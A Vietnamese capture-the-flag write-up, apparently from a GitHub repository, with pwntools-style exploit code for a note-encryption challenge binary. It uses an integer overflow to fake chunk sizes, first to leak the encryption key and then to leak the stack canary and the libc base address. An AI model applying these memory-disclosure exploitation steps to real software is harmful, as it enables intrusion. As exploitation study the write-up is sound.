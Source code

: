 phân tích cũng khá dài rồi giờ bắt tay vào làm thôi

### Leak Key
- tạo thử 2 cái note idx 0 và 1 , sau đó encryted xem sao

```c 
add(0, 0x80, b'a'*8)
add(1, 0x10, b'b'*8)
lock_n_lock()
```
![image](https://github.com/gookoosss/CTF/assets/128712571/c64a0aaf-6d70-4fee-aac9-01f57b2e01ab)


- các 8 byte null sẽ encrypted thành 0xd908a00a9c4df605 => key == 0xd908a00a9c4df605
- để leak được key thì ta cần tạo để fake chunk cho idx 1 = 0x8 bằng IOF, lý do là để khi vào hàm edit_cred thì nó chỉ decrypted lại 8byte theo note_size(0x8) ta đã fake, còn 8byte sau của key nó để nguyên => leak được key

![image](https://github.com/gookoosss/CTF/assets/128712571/e20d8fd2-4575-4b01-bb95-cec7657eb254)


```python 
### leak key ###
GDB()
add(0, 0x80, b'a'*8)
add(1, 0x10, b'b'*8)
lock_n_lock() # encrypted null byte -> Key
delete(0)
add(0, 0x0000000800000080, b'a'*8) # IOF => fake size idx1 = 0x8 
key = u64(edit(1, b'c'*8)[8:])
print(hex(key))
```

### Leak canary and libc

- trước tiên ta decrypted để đưa data về ban đầu
- như đã phân tích ở trên thì ta lợi dụng IOF để fake size cho idx 1 là 0x200, memcpy sẽ lấy từ stack 0x100byte biến s gán vào idx 1, còn lại 0x100 byte chứa các addr quan trọng sẽ bị tràn qua idx 2

![image](https://github.com/gookoosss/CTF/assets/128712571/49d85e08-07dc-4185-ac36-16f2bf16ef1b)


- lúc này trong idx 2 chứa đầy đủ các addr của fake canary, canary, exe và libc, ta sẽ edit idx 2 từ từ để leak ra hết các addr cần thiết

![image](https://github.com/gookoosss/CTF/assets/128712571/38ec1dd9-4dfc-4d08-86de-4bdac3a3e323)


```c 
### leak canary and libc ###
lock_n_lock()
delete(0)
add(0, 0x0000020000000080, b'a'*8) # IOF => fake size idx1 = 0x200 > 0x100(256)
edit(1, b'a'*8)
# lúc này memcpy sẽ lấy 0x100 byte gán vào idx 1, 0x100 byte sau (chứa canary , exe, libc) gán vào idx 2
add(2, 0x10, b'b'*0x10) # add idx 2
fake_canary = u64(edit(2, b'a' * 0x19)[0x10:])
canary = u64(edit(2, b'a' * 0x88)[0x18:0x20]) - 0x61
libc.address = u64(edit(2, b'a' * 0x88)[0x88:] + b'\0\0') - 0x23a90
print(hex(fake_canary))
print(hex(canary))
print(hex(libc.address))
```
